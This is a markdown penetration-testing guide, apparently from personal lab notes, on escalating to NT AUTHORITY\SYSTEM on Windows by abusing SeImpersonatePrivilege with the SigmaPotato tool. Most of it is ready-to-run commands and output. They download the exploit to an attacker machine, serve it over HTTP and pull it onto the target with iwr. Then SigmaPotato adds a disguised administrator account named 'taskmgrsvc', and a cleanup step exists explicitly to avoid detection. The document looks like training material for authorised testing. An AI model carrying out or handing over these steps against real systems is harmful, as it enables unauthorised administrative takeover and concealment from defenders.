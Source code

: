## SeImpersonatePrivilege

### Overview
The `SeImpersonatePrivilege` privilege allows a user to impersonate another user's security context. By default, this privilege is granted to system accounts such as:
- **LOCAL SERVICE**
- **NETWORK SERVICE**
- **SERVICE**
- Members of the **Administrators** group.

Attackers can abuse this privilege to escalate their access to NT AUTHORITY\SYSTEM by leveraging tools that coerce privileged processes into connecting to a controlled **named pipe**.

This guide demonstrates:
1. **Identifying SeImpersonatePrivilege**.
2. **Exploiting the privilege** using `SigmaPotato` to escalate privileges.

---

### Step 1: Check Assigned Privileges
To determine if the current user has `SeImpersonatePrivilege`, use:

```powershell
whoami /priv
```

#### Example Output:
```plaintext
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeSecurityPrivilege           Manage auditing and security log          Disabled
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

The output confirms that `SeImpersonatePrivilege` is **Enabled** for the current user.

---

### Step 2: Identify the Exploit Path
The privilege can be exploited by coercing a privileged process (e.g., `SYSTEM`) into connecting to a controlled named pipe. Tools like **SigmaPotato** and **JuicyPotato** automate this process.

For this guide, we will use **SigmaPotato**.

---

### Step 3: Download SigmaPotato
On your attacker machine (e.g., Kali Linux):

1. Download the SigmaPotato executable:
   ```bash
   wget https://github.com/tylerdotrar/SigmaPotato/releases/download/v1.2.6/SigmaPotato.exe
   ```
2. Start a Python HTTP server to host the file:
   ```bash
   python3 -m http.server 80
   ```
3. Transfer SigmaPotato to the target system:
   ```powershell
   iwr -Uri http://<attacker_ip>/SigmaPotato.exe -OutFile SigmaPotato.exe
   ```

**Example**:
```powershell
PS C:\Users\dave> iwr -Uri http://192.168.48.3/SigmaPotato.exe -OutFile SigmaPotato.exe
```

---

### Step 4: Run SigmaPotato to Escalate Privileges
SigmaPotato will leverage the `SeImpersonatePrivilege` to execute commands as **NT AUTHORITY\SYSTEM**.

1. **Add a New User**:
   ```powershell
   .\SigmaPotato "net user taskmgrsvc Password123! /add"
   ```
2. **Add the User to Administrators Group**:
   ```powershell
   .\SigmaPotato "net localgroup Administrators taskmgrsvc /add"
   ```

#### Example Output:
```plaintext
[+] Starting Pipe Server...
[+] Created Pipe Name: \\.\pipe\SigmaPotato\pipe\epmapper
[+] Pipe Connected!
...
[+] Process Output:
The command completed successfully.
```

---

### Step 5: Verify Privilege Escalation
1. Verify the new user was created:
   ```powershell
   net user
   ```
2. Confirm the user is in the Administrators group:
   ```powershell
   net localgroup Administrators
   ```

**Example Output**:
```plaintext
User accounts for \CLIENTWK220
-------------------------------------------------------------------------------
Administrator            BackupAdmin              dave                     
taskmgrsvc               daveadmin                DefaultAccount           

Alias name     administrators
Members
-------------------------------------------------------------------------------
Administrator
taskmgrsvc
```

The output confirms that `taskmgrsvc` was successfully added to the **Administrators** group.

---

### Step 6: Cleanup
To avoid detection, remove the malicious user and clean up any traces:

1. Remove the user:
   ```powershell
   net user taskmgrsvc /delete
   ```
2. Delete the SigmaPotato executable:
   ```powershell
   del SigmaPotato.exe
   ```

---

### Notes
- The **Potato Family** tools (e.g., SigmaPotato, JuicyPotato, RottenPotato) exploit `SeImpersonatePrivilege` using named pipes.
- These tools work when running as services like `NETWORK SERVICE`, `LOCAL SERVICE`, or other accounts with `SeImpersonatePrivilege` enabled.
- Always verify the privilege and exploit safely to avoid system disruptions.

---

### References
- [SigmaPotato on GitHub](https://github.com/tylerdotrar/SigmaPotato)
- [HackTricks - SeImpersonatePrivilege](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privileges-and-impersonation/seimpersonateprivilege)

---
